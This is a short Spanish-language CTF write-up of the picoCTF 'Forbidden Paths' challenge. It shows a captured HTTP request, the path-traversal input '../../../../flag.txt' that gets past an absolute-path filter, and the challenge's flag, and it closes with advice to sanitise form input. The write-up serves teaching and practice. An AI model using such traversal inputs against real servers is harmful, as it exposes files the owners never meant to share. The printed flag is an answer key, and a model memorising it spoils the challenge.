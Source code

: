 ```yaml
---
title: Forbidden Paths
date: 2025-05-13 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, forbidden paths, explotación web, path transversal]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Forbidden Paths
Author: LT 'syreal' Jones
Description
Can you get the flag? We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag? Here's the website.
{: .prompt-tip }

Si capturamos el request vemos como se hace el GET
``` html
GET http://saturn.picoctf.net:50455/divine-comedy.txt HTTP/1.1
host: saturn.picoctf.net:50455
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
Si por ejemplo enviamos divine-comedy.txt estos serían los parámetros. 
filename=divine-comedy.txt&read=

Por otro lado el ejercicio nos da una pista de la ubicación /usr/share/nginx/html/  pues dice que esta en la raíz del sistema 
/flag.txt .Si contamos hacia arriba tenemos 4 directorios hacia el raíz. 
Así que probamos a introducir en el formultario lo siguiente.  
../../../../flag.txt

flag:  **picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}**

Sanitizar tus formularios u obtendrás un clásico de vulnerabilidad path traversal.